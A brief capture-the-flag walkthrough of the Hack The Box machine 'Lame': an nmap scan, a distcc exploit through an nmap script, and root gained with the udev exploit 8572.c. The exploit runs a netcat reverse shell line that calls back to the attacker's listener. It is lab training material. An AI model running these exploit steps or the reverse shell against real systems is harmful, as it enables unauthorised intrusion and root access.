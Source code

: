 Legacy without Metasploit:

![Lame](https://user-images.githubusercontent.com/55708909/91424966-24d6d500-e878-11ea-8989-bca46c0cc916.png)



Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Lame -p- 10.10.10.3

![Lame_nmap](https://user-images.githubusercontent.com/55708909/91425616-01f8f080-e879-11ea-9f03-d54ed3ca7e24.png)

FTP port doesn't have any info to give so i quickly switch to nmap vulnerability scripts as per my own methodology and found one vector to attack

![Lame_vuln](https://user-images.githubusercontent.com/55708909/91427248-3c638d00-e87b-11ea-994b-455883a3dc41.png)

distcc is kind of compilier and nmap has a script to exploit this vulnerability

![Lame_shell](https://user-images.githubusercontent.com/55708909/91429683-610c3480-e87c-11ea-959c-1d02e7e51b5b.png)

For Priviledge Escalation we are going to use 2009-1185

searchsploit -m 8572.c

It require process id of udevd : ps -aux |grep devd

As per this exploit the file run in tmp directory will be running with root priviledges.

run

#/bin/bash

nc -nv 10.10.10.10 4444 -e /bin/bash

transfer the file run in tmp directory and run these commands 

./8572 2688 (as per my pc udevd PID. It can be differet for yours)

and we get reverse connection on netcat at port 4444

![Lame_flag](https://user-images.githubusercontent.com/55708909/91435348-d0395700-e883-11ea-8208-97d55095c9a1.png)










